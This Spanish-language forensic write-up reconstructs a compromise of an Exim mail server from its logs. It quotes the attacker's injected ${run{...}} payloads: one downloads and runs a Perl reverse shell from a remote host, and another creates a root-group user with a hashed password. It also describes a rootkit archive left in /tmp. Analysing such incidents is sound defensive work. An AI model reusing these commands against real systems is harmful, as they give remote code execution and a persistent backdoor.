 ```bash
cat var/log/exim4/rejectlog
```

![BufferOverflow](https://user-images.githubusercontent.com/47476901/151601700-7197f48d-cdb2-4418-9454-f7170a103ef7.png)

Intentaba descargar el archivo realizando el desbordamiento y una de las peticiones fue realizada correctamente, una vez se descargó el archivo perl de su maquina de atacante, lo ubicaba en tmp como usuario exim y lo ejecutó como ese usuario.

```bash
cat var/log/exim4/mainlog
```

Este binario perl realiza una conexion por sockets creando asi una sesion remota del ordenador victima al atacante.

```bash
${run{/bin/sh -c "exec /bin/sh -c 'wget http://192.168.56.1/c.pl -O /tmp/c.pl;perl /tmp/c.pl 192.168.56.1 4444; sleep 1000000'"}}
```
![perlreverse](https://user-images.githubusercontent.com/47476901/151601733-346e564f-5970-4da6-aeb8-1daae6426961.png)


Exploit de perl que realiza una reverse shell al ordenador (exploit que se ejecuta en exim para conectarse al ordenador remotamente como usuario root):

<b>- Este es el Remote Code Execution</b><br>
<b> La forma en la que se conectó el atacante</b>

![binarioperl](https://user-images.githubusercontent.com/47476901/151601751-a0c87d38-57af-4380-8b27-d8626a8fbc3c.png)

```bash
cat var/log/exim4/mainlog
```
      
Crea un nuevo usuario que este en el grupo de administador con una contraseña hasheada en md5.

<b>- Este es el Local Privilege Escalation</b><br>
<b>La forma en la que se convierte en root</b>

```bash
${run{/bin/sh -c "exec /bin/sh -c 'useradd --gid root --create-home --password  0 0mkpasswd -H md5 Ulyss3s) ulysses'"}} 
```

![crearusuario](https://user-images.githubusercontent.com/47476901/151601768-cab31bd9-4515-4174-bcf1-7ec1df3979df.png)


En tmp podemos observar como esta el fichero <b>c.perl</b> (el cual generaba esa conexion),
y un archivo comprimido llamado <b>rk.tar</b>

![tmpfiles](https://user-images.githubusercontent.com/47476901/151601785-d6662d80-4c74-4a1a-9d95-ded5142f1266.png)


Analizando el archivo rk, nos damos cuenta de que se trata de un rootkit, el cual genera una puerta trasera al sistema usando iptables y demas cosas.

![rootkit](https://user-images.githubusercontent.com/47476901/151602060-d4c88931-3218-4611-8a43-ff6eddf33892.png)
